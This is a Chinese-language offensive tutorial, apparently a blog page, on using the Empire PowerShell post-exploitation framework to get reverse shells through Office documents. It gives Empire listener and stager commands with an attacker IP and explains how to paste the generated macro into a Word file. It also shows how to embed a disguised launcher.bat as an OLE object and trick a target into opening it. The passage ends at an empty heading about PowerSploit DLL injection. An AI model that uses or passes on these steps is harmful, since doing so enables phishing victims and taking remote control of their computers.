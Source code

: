 ### Empire 结合office反弹shell

Empire(https://github.com/EmpireProject/Empire ) 基于powershell的后渗透攻击框架，可利用office 宏、OLE对象插入批处理文件、HTML应用程序(HTAs)等进行反弹shell

#### 利用office 宏反弹shell

```shell
# 攻击者(192.168.159.134)开启监听:
uselistener http
execute
back
usestager windows/macro http #生成payload
execute
```

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/t01ebd92ae5c2752d1a.png)

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/t01c424d48628a2722b.png)

生成/tmp/macro 攻击代码后，新建一个word 创建宏

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/t017c0553a3aab1b9de.png)

点击“文件”-“宏”-“创建”，删除自带的脚本，复制进去/tmp/macro文件内容，并保存为“Word 97-2003文档(*.doc)”或者“启用宏的Word 文档(*.docm)”文件，当诱导目标打开，执行宏后，即可成功反弹shell：
说明:需要开启宏或者用户手动启用宏。开启宏设置：“文件”-“选项”-“信任中心”,选择“启用所有宏”

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/t0110d78f8b6dc573b7.png)

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/t0153edfb39e2d25b0e.png)

### 利用office OLE对象插入bat文件反弹shell

```shell
# 攻击者(192.168.159.134)开启监听 并生成bat文件payload：
listeners
usestager windows/launcher_bat http
execute
```

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/t017b89a4956e058dd2.png)

在word中“插入”-“对象”-“由文件创建” 处，插入launcher.bat文件，可更改文件名称和图标，进行伪装，当诱导目标点击launcher_lltest.xls文件，执行后，即可成功反弹shell：

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/t019fac2fa169e37faf.png)

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/t01df44007f3dfd7c7f.png)

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/t01d3703513e3d73d1a.png)

### PowerSploit DLL注入反弹shell

